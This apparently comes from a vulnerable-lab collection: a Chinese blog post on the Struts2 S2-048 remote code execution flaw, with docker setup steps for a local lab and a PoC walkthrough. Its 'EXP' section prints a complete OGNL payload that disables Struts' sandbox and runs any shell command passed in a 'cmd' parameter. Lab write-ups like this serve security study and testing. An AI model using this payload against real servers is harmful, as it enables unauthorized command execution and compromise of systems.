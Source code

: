 ```yaml
---
layout: post
title: "Struts2-struts1-plugin 插件远程代码执行漏洞(S2-048)"
date: 2017-07-07 23:57:35 +0800
image: '/assets/img/'
description: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生。'
introduction: '当开发者使用Struts2 Struts1的插件时，可能会因为不受信任的输入导致远程命令执行漏洞的产生。'
---
```


### 漏洞信息

 * [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_struts2_s2-048
 ```

2. 启动环境
 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-048
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

> 例如目标地址为：http://127.0.0.1:32768/

1.访问本例目标地址

 > http://127.0.0.1:32768/integration/editGangster.action

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-1.png)

2.如下图在Gangster Name字段输入 Payload
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-2.png)

3.提交后可看到表达式被执行
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/poc-3.png)

#### EXP

核心部分如下：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

需要再指定一个 cmd 参数，传入要执行的命令：

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-048/exp.png)

### 参考链接

* [S2-048 公告](https://cwiki.apache.org/confluence/display/WW/S2-048)
* [【漏洞分析】Struts2高危漏洞S2-048分析](http://bobao.360.cn/learning/detail/4078.html)

